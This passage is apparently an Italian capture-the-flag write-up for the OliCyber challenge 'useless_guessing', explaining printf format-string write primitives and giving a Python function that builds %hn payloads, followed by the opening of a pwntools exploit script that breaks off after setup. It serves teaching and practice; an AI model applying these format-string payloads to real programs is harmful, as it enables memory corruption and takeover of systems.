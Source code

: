 È importante sottolineare che ogni payload scrive `solo` i bit specificati dal format specifier. Ciò significa che il secondo payload **non** scrive `0x11337`, ma `0x1337`, e il terzo scrive `0x37`.

Questo può essere sfruttato in quei casi in cui il numero che vogliamo scrivere è **minore** del numero di caratteri che sono già stati scritti dalla `printf` prima di processare il nostro input. Per esempio, se si volesse scrivere `0x0`, allora si potrebbe far scrivere dalla `printf` stessa il numero `0x100` come intero a 8 bit.

Da tenere in considerazione è che in generale, utilizzare la `printf` per scrivere direttamente numeri molto grossi in un colpo solo non è pratico: supponendo di voler scrivere il numero `0x13371337` in un'unica chiamata, si dovrebbe utilizzare un format specifier tipo `%322376475c$28n`. Ciò significa che la `printf` dovrebbe stampare in output più di `322 milioni` di caratteri prima di scrivere il valore desiderato nel puntatore all'offset `28`. Provare a scrivere numeri così grandi è sicuramente troppo lento e scomodo, e potrebbe anche far fallire direttamente la `printf`.

È quindi consigliato spezzare la scrittura a blocchi di 16 o 8 bit.

La funzione sottostante genera il payload per `printf` per scrivere un numero a 16 bit `what`, all'indirizzo `where`. Alcune note:

- l'offset del nostro input nella `printf` è sempre `26` (verificabile con GDB)
- il parametro `fix_secret` determina se è necessario prependere all'input il format specifier per scrivere sul secret e bypassare il controllo

```python
def fmt_write_16_payload(what, where, already_written, fix_secret=False):
    max_value = 2 ** 16 - 1
    assert what & max_value == what
    assert already_written & max_value == already_written   # Always true since already_written is either 0x1c or 0x1f
    printf_offset = 26

    if fix_secret:
        prefix = b"%25$n"
        expected_len = 24
        printf_offset += 1
    else:
        prefix = b""
        expected_len = 16

    part1 = f"%{max_value + 1 + what - already_written}c".encode()
    part2 = f"%{printf_offset + 2}$hn".encode()
    padding = b"A" * (expected_len - len(prefix) - len(part1) - len(part2))
    part3 = p64(where)
    payload = prefix + part1 + part2 + padding + part3
    return payload
```

A questo punto, è possibile mettere insieme tutti i pezzi e ottenere la flag.

## Exploit

```python
#!/usr/bin/env python3

import os
import logging
from pwn import *

logging.disable()

HOST = os.environ.get("HOST", "uselessguessing.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 38071))
exe_name = exe_name = os.path.join(os.path.dirname(__file__), "useless_guessing")
exe = context.binary = ELF(exe_name, checksec=False)
context.terminal = ["tmux", "splitw", "-h"]

```